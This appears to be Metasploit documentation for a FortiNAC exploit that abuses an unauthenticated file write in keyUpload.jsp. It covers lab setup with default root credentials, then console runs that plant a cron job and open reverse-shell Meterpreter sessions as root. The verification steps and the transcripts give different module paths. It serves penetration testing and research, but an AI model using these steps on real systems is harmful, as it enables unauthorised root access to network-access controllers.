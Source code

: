 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

- FortiNAC version 9.4 prior to 9.4.1
- FortiNAC version 9.2 prior to 9.2.6
- FortiNAC version 9.1 prior to 9.1.8
- FortiNAC 8.8 all versions
- FortiNAC 8.7 all versions
- FortiNAC 8.6 all versions
- FortiNAC 8.5 all versions
- FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email; click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Set the hostname to `localhost`.
The domain can be set to `localhost.localdomain`. You will be required to change the default passwords from the
GUI and once complete, restart the machine. You should now have a vulnerable instance of FortiNAC configured.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf6 exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

